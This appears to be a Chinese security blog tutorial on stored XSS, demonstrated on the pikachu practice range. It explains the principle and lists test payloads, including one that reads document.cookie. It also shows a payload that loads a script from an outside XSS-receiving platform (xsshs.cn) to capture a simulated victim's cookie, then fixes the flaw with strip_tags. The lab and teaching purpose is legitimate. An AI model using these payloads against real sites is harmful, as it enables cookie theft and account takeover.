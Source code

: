 ```yaml
---
title: XSS学习03-存储型xss
category: 
- 渗透测试
tags: 
- XSS
---
```


### 01存储型xss原理

攻击者在页面上插入xss代码，服务端将数据存入数据库，当用户访问到带xss漏洞的页面时，触发payload。达到攻击目的：

![image-20210116223550536](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210116223550536.png)

### 02实战

**预备知识**：了解哪些地方可能存在存储型xss

要知道这个，需要明白xss漏洞需要满足两个条件，及有输入点和输出点，并且用户可控制输入点可以访问输出点。知道这个就可以多去进行一些测试，比如发帖、留言、个人信息等等模块。

常见测试**payload**：

```
<img src=a onerror=alert(1)>  //onerror很容易被过滤！
<img src=a onerror=alert(document.cookie)>  //onerror很容易被过滤！
```

**演示**

1. 环境：pikahu靶场--存储型漏洞（留言板处）
2. xss接收平台：`https://xsshs.cn/`

**步骤**

- 攻击者构造payload提交

![image-20210117195236102](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210117195236102.png)

可以看到，留言成功。

![image-20210117195416668](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210117195416668.png)

此时后台应该有一条记录。接下来换个浏览器访问，模拟普通用户访问，打掉他的cookie。

- 模拟其他用户访问

![image-20210117195546552](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210117195546552.png)

- 后台平台查看记录

![image-20210117195727092](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210117195727092.png)

可以看到，确实有两条记录。一条是攻击者的，一条是普通用户的。我这里故意在chrome开的代理，火狐没开。因此通过ip也能判断出来。

**payload**：`<img sRC=//xsshs.cn/oxlv/xss.jpg>`

注意这里的payload是用的平台的默认模块，初学者只需要简单测试一下payload即可。

### 03漏洞修复

先进数据库把原有的payload清空一下：

![image-20210117220129480](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210117220129480.png)

然后打开源码，定位到message参数传递、处理的位置：

![image-20210117220241990](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210117220241990.png)

可以看到这里只是对传递进来的参数用escape进行了编码，然后直接存进了数据库。我们可以在这对message参数进行xss过滤。这里使用strip_tags进行过滤：

```php
$_POST['message'] = strip_tags($_POST['message']);
```

接下来重新测试一下。发现不能利用成功了，暂时算是修复了这个xss漏洞。

### 04总结

<!-- more -->